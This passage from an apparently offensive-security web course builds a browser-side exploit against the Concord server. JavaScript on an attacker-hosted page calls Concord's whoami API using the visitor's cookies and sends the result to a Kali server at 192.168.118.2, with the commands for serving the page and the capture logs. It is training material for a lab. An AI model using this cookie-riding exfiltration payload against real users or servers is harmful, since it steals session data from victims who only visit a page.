 > Listing 13 - Basic HTML Page

Next, we need to add some JavaScript between the script tags that will send the API call to deliver the concord.yml payload. Before we do that, we'll send the "whoami" request to determine if the user is actually logged in. This isn't strictly necessary but it will make the exploit more effective, less noisy, and will provide us with more usable data.

```
<script>
	fetch("http://concord:8001/api/service/console/whoami", {
		credentials: 'include'
	})
	.then(async (response) => {
		if(response.status != 401){
			let data = await response.text();
			fetch("http://192.168.118.2/?msg=" + data )
		}else{
			fetch("http://192.168.118.2/?msg=UserNotLoggedIn" )
		}
	})
</script>
```

> Listing 14 - Using Fetch to Call whoami

The code in Listing 14 will first send a request to the target server and the target endpoint with the credentials (cookies). If the response status is not 401, the captured data will be sent back. If the response status is 401, a message will be sent back to our Kali server.

Let's save the contents of this into ~/concord/index.html and use Python to start an HTTP server on port 80.

```
kali@kali:~$ mkdir concord

kali@kali:~$ cd concord/

kali@kali:~/concord$ mousepad index.html

kali@kali:~/concord$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

> Listing 15 - Serving HTML with whoami Request

Next, we'll visit this page in Firefox to validate that it is working. Since we are not logged into Concord, we should expect to hit the _else_ branch and return a "UserNotLoggedIn" message.

![Figure 24: Visiting Page in Firefox](https://static.offsec.com/offsec-courses/WEB-300/images/concord/617ef88bdd376c8630102cc4f0546ccb-concord_visiting_in_ff.png)

Figure 24: Visiting Page in Firefox

When we check the Python HTTP server logs, we find that we indeed received a "UserNotLoggedIn" message.

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.118.2 - - [07/Apr/2021 19:35:30] "GET / HTTP/1.1" 200 -
192.168.118.2 - - [07/Apr/2021 19:35:30] code 404, message File not found
192.168.118.2 - - [07/Apr/2021 19:35:30] "GET /favicon.ico HTTP/1.1" 404 -
192.168.118.2 - - [07/Apr/2021 19:35:30] "GET /?msg=UserNotLoggedIn HTTP/1.1" 200 -
```
